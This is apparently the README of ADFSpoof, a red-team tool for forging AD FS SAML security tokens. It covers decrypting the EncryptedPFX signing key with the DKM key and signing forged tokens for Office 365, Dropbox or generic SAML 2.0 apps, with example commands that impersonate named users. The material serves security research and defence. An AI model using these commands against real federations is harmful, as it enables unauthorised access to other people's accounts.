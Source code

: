 # ADFSpoof

A python tool to forge AD FS security tokens.

Created by Doug Bienstock [(@doughsec)](https://twitter.com/doughsec) while at Mandiant FireEye

## Detailed Description

ADFSpoof has two main functions:
1. Given the EncryptedPFX blob from the AD FS configuration database and DKM decryption key from Active Directory, produce a usable key/cert pair for token signing.
2. Given a signing key, produce a signed security token that can be used to access a federated application.

If you are confused by the above, you might want to read up on AD FS first. For more information on AD FS spoofing I will post a link to my TROOPERS 19 talk and slides when they are released.

## Installation

ADFSpoof is written in Python 3.

ADFSpoof requires the installation of a custom fork of the Python Cryptography package, available [here](https://github.com/dmb2168/cryptography). Microsoft did not exactly follow the RFC for Key Deriviation :wink:, so a fork of the package was needed.

All other requirements are captured in the repo's requirements.txt.

`pip install -r requirements.txt`

## Usage

```
usage: ADFSpoof.py [-h] (-b BLOB BLOB | -c CERT) [-p PASSWORD] [-v VERBOSE]
                   [--assertionid ASSERTIONID] [--responseid RESPONSEID]
                   [-s SERVER] [-a ALGORITHM] [-d DIGEST] [-o OUTPUT]
                   {o365,dropbox,saml2,dump} ...

optional arguments:
  -h, --help            show this help message and exit
  -b BLOB BLOB, --blob BLOB BLOB
                        Encrypted PFX blob and decryption key
  -c CERT, --cert CERT  AD FS Signing Certificate
  -p PASSWORD, --password PASSWORD
                        AD FS Signing Certificate Password
  -v VERBOSE, --verbose VERBOSE
                        Verbose Output
  --assertionid ASSERTIONID
                        AssertionID string. Defaults to a random string
  --responseid RESPONSEID
                        The Response ID. Defaults to random string
  -s SERVER, --server SERVER
                        Identifier for the federation service. Usually the
                        fqdn of the server. e.g. sts.example.com DO NOT
                        include HTTPS://
  -a ALGORITHM, --algorithm ALGORITHM
                        SAML signing algorithm to use
  -d DIGEST, --digest DIGEST
                        SAML digest algorithm to use
  -o OUTPUT, --output OUTPUT
                        Write generated token to the supplied filepath

modules:
  loaded modules

  {o365,dropbox,saml2,dump}
                        additional help
```
### Cryptographic Material

All ADFSpoof functionality requires cryptographic material for the AD FS signing key. This can be supplied in one of two ways:

* `-b BLOB BLOB`: Supply the EncryptedPFX binary blob (base64 decode what is pulled out of the configuration database) and the DKM key from Active directory. Order matters!
* `-c CERT`: Provide a PKCS12-formatted file for the signing key and certificate. If it is password protected supply a password with `-p`. The overall file password and private key password must be the same.


### Global Options

* `-s SERVER`: The AD FS service identifier. Required when using any module that generates a security token. This goes into the security token to let the federated application know who generated it.
* `-o FILEPATH`: Outputs the generated token to disk instead of printing it.
* `--assertionid` and `--responseid`: If you wish to supply custom attribute values for SAML AssertionID and ResponseID. Defaults to random strings.
* `-d DIGEST`: Set the MAC digest algorithm. Defaults to SHA256.
* `-a ALGORITHM`: Set the signature algorithm. Defaults to RSA-SHA256.


### Command Modules

ADFSpoof is built modularly with easy expansion in mind. Currently, it comes preloaded with four command modules that support different functionality.

Each module encapsulates the SAML attributes and values necessary to generate a valid security token for a specific token type or federated application. *Note that for the applications specific modules, the template represents the generic installation. Customization may be required for organizations that have messed with the defaults.*

#### o365

Generates a forged security token to access Microsoft Office 365. This is a SAML 1.1 token.

* `--upn UPN`: The universal principal name of the user to generate a token for. Get this from AD.
* `--objectguid`: The Object GUID of the user to generate a token for. Get this from AD. Include the curly braces.

#### Dropbox

Generats a forged security token to access Dropbox. This is a SAML 2.0 token.

* `--email EMAIL`: The email address of the user to generate a token for.
* `--accountname ACCOUNT`: The SamAccountName of the user to generate a token for.

#### SAML2

A command that encapsulates generating a generic SAML 2.0 security token. Use this module to generate security tokens for arbitrary federated applications that are using SAML 2.0. By reading the data returned by ADFSDump you should be able to generate a valid token for just about any federated application using this module.

* `--endpoint ENDPOINT`: The recipient of the seucrity token. This should be a full URL.
* `--nameidformat URN`: The value for the 'Format' attribute of the NameIdentifier tag. This should be a URN.
* `--nameid NAMEID`: The NameIdentifier attribute value.
* `--rpidentifier IDENTIFIER`: The Identifier of the relying party that is receiving the token.
* `--assertions ASSERTIONS`: The assertions that the relying party is expecting. Use the claim rules output by ADFSDump to ascertain this. Should be a single-line (do not include newlines) XML string.
* `--config FILEPATH`: A filepath to a JSON file containing the above arguments. Optional - use this if you don't want to supply everything over the command line.

#### Dump

Helper command that will take the supplied EncryptedPFX blob and DKM key from `-b`, decrypt the blob, and output the PFX file to disk. Use this to save the PFX for later.

`--path PATH`: The filepath to save the generated PFX.

### Examples

#### Decrypt the EncryptedPFX and write to disk
`python ADFSpoof.py -b EncryptedPfx.bin DKMkey.bin dump`

#### Generate a security token for Office365

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com o365 --upn robin@doughcorp.co --objectguid {1C1D4BA4-B513-XXX-XXX-3308B907D759}`

#### Generate a SAML 2.0 token for some app

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com saml2 --endpoint https://my.app.com/access/saml --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid robin@doughcorp.com --rpidentifier myapp --assertions <Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress"><AttributeValue>robin@doughcorp.com</AttributeValue></Attribute>`





